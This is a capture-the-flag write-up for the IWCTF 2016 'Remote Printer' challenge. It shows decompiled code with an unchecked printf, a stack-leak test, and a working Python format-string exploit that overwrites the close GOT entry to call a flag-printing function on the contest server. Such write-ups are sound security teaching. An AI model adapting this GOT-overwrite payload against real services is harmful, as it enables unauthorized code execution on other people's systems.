 # IWCTF 2016 - Exploit - Remote Printer - 80 pts

> Description: Printer are very very important for offices. Especially for remote printing. My boss told me to build a tool for that task.
>
> Attachment: [exp80.zip](exp80.zip)
>
> Service: 188.166.133.53:12377 

# Write-up

Connecting to the specified address, we get an interface to enter an address and a port for a "remote printer".

So, let's start netcat in listening mode 

```shell
nc -lvvp 6666
```

and pass this as the remote printer. We'll see the service connects to our local netcat session and waits for some input. After entering some gibberish, the service just prints our input and closes.

Let's have a look at the disassembled code, that handles the communication:

```c
function sub_8048786 {
    esp = (esp - 0x4 - 0x4 - 0x4 - 0x4) + 0x10;
    var_C = socket(0x2, 0x1, 0x0);
    if (var_C == 0xffffffff) {
            puts("No socket :(");
    }
    else {
            inet_addr(arg0);
            htons();
            esp = (((esp - 0xc - 0x4) + 0x10 - 0xc - 0x4) + 0x10 - 0x4 - 0x4 - 0x4 - 0x4) + 0x10;
            if (connect(var_C, 0x2, 0x10) < 0x0) {
                    perror("No communication :(\n");
            }
            else {
                    esp = (esp - 0x4 - 0x4 - 0x4 - 0x4) + 0x10;
                    if (recv(var_C, var_201C, 0x2000, 0x0) < 0x0) {
                            puts("No data :(");
                    }
                    else {
                            printf(var_201C);
                            close(var_C);
                    }
            }
    }
    return;
}
```

It just receives our input and prints it back via printf. But since it doesn't pass a format string, it seems to be a simple format string vulnerability.

Quick test:

```shell
$ nc -lvvp 6666
listening on [any] 6666 ...
connect to [127.0.0.1] from localhost [127.0.0.1] 44112
AAAABBBB%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x
 sent 44, rcvd 0
```

```shell
$ ./RemotePrinter 
This is a remote printer!
Enter IPv4 address:127.0.0.1
Enter port:6666
Thank you, I'm trying to print 127.0.0.1:6666 now!
AAAABBBBff8cd4fc.2000.0.0.0.0.41414141.42424242.252e7825.78252e78.2e78252e.252e7825
```

Ok, our format string shows up in the 7th and 8th parameter.

After printf the service calls `close`, so we can just overwrite close.plt.

```shell
$ objdump -R RemotePrinter 

RemotePrinter:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE 
08049c34 R_386_GLOB_DAT    __gmon_start__
08049c8c R_386_COPY        stdout
[SNIP]
08049c74 R_386_JUMP_SLOT   inet_addr
08049c78 R_386_JUMP_SLOT   connect
08049c7c R_386_JUMP_SLOT   recv
08049c80 R_386_JUMP_SLOT   close
```

Nicely enough the RemotePrinter service also contains a method, spitting out the flag quite happily, if called.

```C
function sub_8048867 {
    var_C = fopen(0x80489de, 0x80489dc);
    fgets(var_3E, 0x32, var_C);
    fclose(var_C);
    eax = printf("YAY, FLAG: %s\n", var_3E);
    return eax;
}
```

So all we have to do is to overwrite close (0x08049c80) with this one (0x08048867). 

Starting the service in gdb and adjusting the format string led to the following exploit:

```python
#!/usr/bin/python
import struct

def p(x):
	return struct.pack("<L", x)

CLOSE = 0x08049c80
SHOWFLAG = 0x08048867

payload = ""
payload += p(CLOSE)
payload += p(CLOSE+2)
payload += "%34911u%7$n"
payload += "%32669u%8$n"

print payload
```

After getting this working locally, all there's left to do is to open up a nc listener passing our payload:

```shell
$ python xpl.py | nc -lvvp 6666
listening on [any] 6666 ...
connect to [192.168.2.103] from serv1.2016.ctf.internetwache.org [178.62.254.108] 58820
 sent 31, rcvd 0
```

and asking the remote service to connect to us:

```shell
$ nc 188.166.133.53 12377
This is a remote printer!
Enter IPv4 address:87.149.209.194
Enter port:6666
Thank you, I'm trying to print 87.149.209.194:6666 now!
����                                                                                                                                       
[SNIP]
8192
YAY, FLAG: IW{YVO_F0RmaTt3d_RMT_Pr1nT3R}
```
